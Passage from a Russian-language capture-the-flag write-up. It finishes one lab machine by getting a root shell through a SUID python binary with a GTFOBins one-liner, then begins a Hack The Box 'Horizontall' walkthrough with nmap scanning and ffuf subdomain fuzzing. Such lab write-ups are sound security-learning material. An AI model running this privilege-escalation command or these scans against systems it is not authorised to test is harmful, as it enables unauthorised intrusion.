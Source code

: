 У нас есть /usr/bin/python с разрешением SUID, мы попытаемся повысить наши привилегии.  
Мое первое место — перейти на [https://gtfobins.github.io/](https://gtfobins.github.io/) и найти возможные команды повышения привилегий для повышения привилегий.  

Найдите питон в строке поиска.

![[Pasted image 20230710175041.png]]

![[Pasted image 20230710175055.png]]

Всегда читайте описание перед копированием команд. Мы можем пропустить первую команду, так как двоичный файл уже имеет разрешение SUID. Скопируйте вторую команду и вставьте в оболочку, чтобы проверить, работает ли она. Удалите ./ из команды и запустите ее.

```bash
python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
```

ДА!! Это действительно работает.  Мы успешно повысили наши привилегии. Мы можем подтвердить, что мы root.

Это делает нас пользователем root в системе. Теперь мы можем просто прочитать файл корневого флага и все!

Перейдите в корневой каталог, и мы найдем наш корневой флаг.

![[Pasted image 20230710175243.png]]

Мы успешно взломали машину и нашли оба флага 🚩

--- 

# Horizontall

**Плошадка:** https://hackthebox.com
**Уровень:** Easy
## Сканирование 

```
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.105
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
```

Ничего интересного в каталогах или файлах не появляется, поэтому я попробовал сканировать виртуальные хосты.

```
[kali@kali ~]$ ffuf -w ~/wordlist/subdomains-top1million-110000.txt:FUZZ -u http://horizontall.htb/ -H 'Host: FUZZ.horizontall.htb' -fs 194 -v -t 200
...
[Status: 200, Size: 901, Words: 43, Lines: 2]
| URL | http://horizontall.htb/
    * FUZZ: www

[Status: 200, Size: 413, Words: 76, Lines: 20]
| URL | http://horizontall.htb/
    * FUZZ: api-prod
```
